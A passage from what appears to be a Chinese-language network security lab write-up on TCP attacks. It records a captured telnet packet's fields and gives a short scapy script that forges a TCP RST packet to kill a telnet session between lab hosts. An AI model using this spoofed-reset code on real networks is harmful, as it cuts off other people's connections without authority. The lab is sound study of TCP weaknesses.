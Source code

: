 攻击期间telnet无法登录

![image-20230417171210537](assets/image-20230417171210537.png)

### 3.2 scapy手动攻击

找到server最后一条tcp包

![image-20230417230708028](assets/image-20230417230708028.png)

包内信息：

ip4-src 10.9.0.2

ip4-dst 10.9.0.3

tcp-src 23

tcp-dst 41768

tcp_acknum 3345820281

修改tcp_reset_mannual.py

```python
#!/usr/bin/python3
from scapy.all import *

print("SENDING RESET PACKET.........")
ip  = IP(src="10.9.0.3", dst="10.9.0.2")
tcp = TCP(sport=41806, dport=23,flags="R",seq=3345820281)
pkt = ip/tcp
ls(pkt)
send(pkt,verbose=0)
```
